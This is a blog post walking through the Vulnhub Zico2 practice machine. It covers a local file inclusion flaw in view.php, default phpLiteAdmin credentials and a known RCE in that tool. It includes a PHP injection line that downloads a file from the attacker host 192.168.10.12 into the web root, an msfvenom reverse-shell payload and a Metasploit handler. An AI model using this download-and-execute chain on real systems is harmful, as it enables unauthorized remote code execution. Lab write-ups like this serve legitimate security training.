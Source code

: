 ```yaml
---
layout: post
title: Vulnhub Zico 2
---
```

In this week, I´ve done another vulnhub machine, in this case [Zico2](https://www.vulnhub.com/entry/zico2-1,210/). In my opinion, it was easier than previous machines, both intrusion and privilege escalation steps. As it´s shown below, the host has two main services running, a SSH service and a web application:

![evidence1]({{ site.baseurl }}/images/zico2_01.png)

Analyzing the web application, a LFI vulnerability could be found in "page" HTTP GET parameter of "view.php":

![evidence2]({{ site.baseurl }}/images/zico2_02.png)

This vulnerability along with default credentials on phpLiteAdmin service (located in the web application in "http://192.168.10.17/dbadmin/") and a [RCE vulnerability in 1.9.3 version of that DBMS](https://www.exploit-db.com/exploits/24044/), could allow us inject and execute PHP code on remote host. First of all, I created a PHP payload with msfvenom that then I uploaded into the victim machine using the RCE vulnerability. Due to a problems with meterpreter payload, I used a more simple PHP shell payload, "php/reverse_php":

![evidence3]({{ site.baseurl }}/images/zico2_03.png)

Inside of the DBMS, you can find other Once it was done, I needed to upload the exploit. To do this, first of all I created a new database, called "hack.php", with only one table and one field. The PHP injection is executed in the default value of that value, that in our case was the next one:

```
<?php function dl($u, $o){$c = file_get_contents($u);file_put_contents($o, $c);}dl("http://192.168.10.12/zico.txt", realpath(realpath(dirname(__FILE__))) . "/zico.php")?>
```
![evidence4]({{ site.baseurl }}/images/zico2_04.png)

For this phase, I tried to use other techniques to upload the file, for example, using the PHP function ["passthru"](http://www.hackingwithphp.com/4/12/0/executing-external-programs) and operative systems commands such "nc" or "wget" but it didn´t work fine. It was strange because using passthru is possible to execute other commands (such "find", "cat" and so on). Anyway, the exploit was correctly uploaded in "/usr/databases" folder, the next step was configuring the handler of metasploit to serve the reverse connection, and the execution through LFI vulnerability the PHP reverse exploit:

![evidence5]({{ site.baseurl }}/images/zico2_05.png)


